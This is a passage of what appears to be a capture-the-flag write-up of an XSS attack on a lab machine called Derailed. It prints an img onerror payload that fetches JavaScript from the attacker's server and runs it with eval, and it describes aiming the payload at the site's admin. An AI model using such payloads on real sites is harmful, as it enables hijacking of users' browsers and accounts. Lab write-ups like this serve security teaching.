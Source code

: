 
On refreshing the page, there’s a hit (it looks just like `python -m
http.server` since I’m using that same module):

    
    
    10.10.14.6 - - [19/Jul/2023 18:32:15] "GET /xss.js HTTP/1.1" 200 -
    

In the console, now instead of the error there’s the contents of the file in
the console:

![image-20230719183430864](../img/image-20230719183430864.png)

#### Better Payload - Part 2

Having bypassed the CORS issue, I still want to see if I can load code from my
server and run it. I’ll update my username by replacing `console.log(t)` with
`eval(t)`:

    
    
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js').then(r => r.text()).then(t => {eval(t)});" />
    

If this works, there will be an alert window in the browser, and it will mean
that I can simple update the local file and refresh, without having to logout,
register, log back in, create a post, and view it. On doing that one last
time, there’s a hit at my webserver and then an alert on the page:

![image-20230719183731818](../img/image-20230719183731818.png)

#### Remote POC

The plan is to submit this ticket to the admin for review. Getting a popup on
their browser isn’t useful (and is counterproductive in the real world). I’ll
update `xss.js` to just an empty file, and go through the process of reporting
on of the posts made by this latest user. A few seconds later, there’s a hit
on the webserver from Derailed:
